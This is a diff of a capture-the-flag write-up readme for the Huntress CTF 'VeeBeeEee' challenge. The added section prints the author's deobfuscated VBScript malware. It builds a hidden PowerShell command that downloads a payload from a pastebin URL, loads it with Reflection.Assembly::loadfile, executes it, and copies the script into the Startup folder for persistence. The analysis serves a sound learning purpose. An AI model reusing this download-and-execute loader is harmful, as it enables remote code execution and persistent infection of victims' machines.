

Before and after one commit to Aryt3/writeups, a Markdown page: huntress_ctf/VeeBeeEee/readme.md, the part around one of its changes. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/huntress_ctf/VeeBeeEee/readme.md
+++ b/huntress_ctf/VeeBeeEee/readme.md
@@ -96,3 +96,74 @@ End Subz&;'Bw:`l),
 ```
 
 After a bit of deobfuscation I got the following result:
+```vbs
+Set Object = WScript.CreateObject("WScript.Shell")
+Set SObject = CreateObject("Shell.Application")
+Set FObject = CreateObject("Scripting.FileSystemObject")
+SPath = WScript.ScriptFullName
+Dim Code
+
+Power0 = "Po"
+Power1 = "we"
+Power2 = "rS"
+Power3 = "he"
+Power4 = "ll"
+Power5 = " "
+Power = Power0 + Power1 + Power2 + Power3 + Power4 + Power5
+
+Path0 = "&$&f&&=&'&&C&"
+Path1 = "&:&\&U&s&e&&rs"
+Path2 = "&\P&&u&b&l&i&&c&"
+Path3 = "\D&&o&c&u&me"
+Path4 = "n&ts&\&&J&u&ly"
+Path5 = "&.h&t&&m&';"
+Path = Path0 + Path1 + Path2 + Path3 + Path4 + Path5
+
+Reqest0 = "&i&&f &(&!(T&e&st&-P&ath &$&f)&){&&I&n&v&o&ke&-&W&eb&&R&eq&u&&e&s&t '"
+Reqest1 = "&h&t&t&p&s&:&/&/&p&a&s&t"
+Reqest2 = "&e&b&i&n&.&c&o&m&/&r&a&w"
+Reqest3 = "&/&S&i&Y&G&w&w&c&z&"
+Reqest4 = "'& &-o&u&"
+Reqest5 = "t&f&i&le &$f&  &};"
+Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5
+
+PathString = SObject.NameSpace(7).Self.Path & "/" & WScript.ScriptName
+
+InvokeReqest0 = "&[&S&y&s&t&e&m&."
+InvokeReqest1 = "&R&e&f&l&e&c&t&i&"
+InvokeReqest2 = "o&n&.&A&s&s&e&m&b&l"
+InvokeReqest3 = "&y&]&:&:&l&o&a&d&f"
+InvokeReqest4 = "&i&l&e(&$&"
+InvokeReqest5 = "f&)&;&"
+InvokeReqest = InvokeReqest0 + InvokeReqest1 + InvokeReqest2 + InvokeReqest3 + InvokeReqest4 + InvokeReqest5
+
+ExecAssem0 = "&[&W&o&r&k"
+ExecAssem1 = "&A&r&e&a&."
+ExecAssem2 = "&W&o&&r&k"
+ExecAssem3 = "]&:&"
+ExecAssem4 = ":&E&x&"
+ExecAssem5 = "e(&)&"
+ExecAssem = ExecAssem0 + ExecAssem1 + ExecAssem2 + ExecAssem3 + ExecAssem4 + ExecAssem5
+
+CollectThenReplace Power, Path, Reqest, InvokeReqest, ExecAssem
+
+Sub CollectThenReplace(First, Second, Third, Fourth, Fifth)
+    Temp = First + Second + Third + Fourth + Fifth
+    Code = Replace(Temp, "&", "")
+End Sub
+
+Return = Object.Run(Code, 0, True)
+
+WScript.Sleep(50000)
+
+For i = 1 To 5
+    If i = 5 Then
+        Paste SPath
+    End If
+Next
+
+Sub Paste(RT)
+    FObject.CopyFile RT, PathString
+End Sub
+```
+
````
Also changed, not shown: other parts of huntress_ctf/VeeBeeEee/readme.md (+77 -0 lines).
